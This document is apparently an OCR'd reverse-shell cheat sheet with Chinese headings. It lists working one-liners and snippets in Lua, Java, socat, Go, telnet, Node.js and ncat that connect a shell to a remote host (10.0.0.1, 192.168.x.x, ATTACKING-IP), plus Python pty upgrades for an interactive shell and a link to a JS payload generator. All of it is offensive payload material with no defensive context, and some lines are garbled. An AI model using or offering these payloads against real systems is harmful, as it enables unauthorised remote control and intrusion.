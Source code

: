 ```bash
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'




# Java反弹shell
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()



# socat反弹shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.79.137:5555




# Golang反弹shell
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go



# Telnet反弹shell
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
#获取反弹shell后，可使用python获得交互式shell
python -c'import pty; pty.spawn("/bin/bash")' python -c ''' import pty while(1):     try:         pty.spawn("/bin/bash")     except :         contiune'''



# Nodejs反弹shell
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
or
require('child_process').exec('nc -e /bin/sh [IPADDR] [PORT]')
or
-var x = global.process.mainModule.require
-x('child_process').exec('nc [IPADDR] [PORT] -e /bin/bash')
or
https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py




# ncat反向shell
ncat 127.0.0.1 4444 -e /bin/bash
ncat --udp 127.0.0.1 4444 -e /bin/bash
# 加密
```